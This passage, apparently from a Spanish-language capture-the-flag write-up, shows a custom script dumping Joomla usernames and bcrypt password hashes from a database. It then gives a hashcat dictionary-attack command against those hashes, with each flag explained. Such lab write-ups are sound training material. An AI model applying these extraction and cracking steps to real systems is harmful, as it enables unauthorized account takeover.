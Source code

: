 Veamos la data de los campos `username` y `password`:

```bash
❭ python3 ex_all.py joomladb edz2g_users username
[+] Info columna username - tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: geordi.la.forge
[+] [1]: Guinan

k3Ep br3ak1n6 4anYyyu...

```

```bash
❭ python3 ex_all.py joomladb edz2g_users password
[+] Info columna password - tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
[+] [1]: $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q

k3Ep br3ak1n6 4anYyyu...

```

Opa 2 usuarios con credenciales:

```bash
* geordi.la.forge:$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy.
* Guinan:$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q.
```

Bien, pues volvamos a intentar crackear, pero ahora estos hashes:

```bash
❭ strings joomla_hashes 
$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q
```

Para cambiar, usemos [hashcat](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/):

```bash
❭ hashcat -m 3200 -a 0 -o cracked.txt joomla_hashes /usr/share/wordlists/rockyou.txt
...
```

* `-m`: Le indicamos el tipo de hash, **3200** hace referencia a **bcrypt**.
* `-a`: Con **0**, le decimos que el ataque es tipo diccionario.
* `-o`: El resultado crackeado nos lo guarda en el archivo `craced.txt`.
* Pasamos archivo de hashes.
* Pasamos diccionario a usar.

> Unlike the other hash algorithms we’ve encountered so far bcrypt is specifically designed to be slow to crack, especially for GPUs. [Crack The Hash - TryHackMe](https://unicornsec.com/home/tryhackme-crack-the-hash).

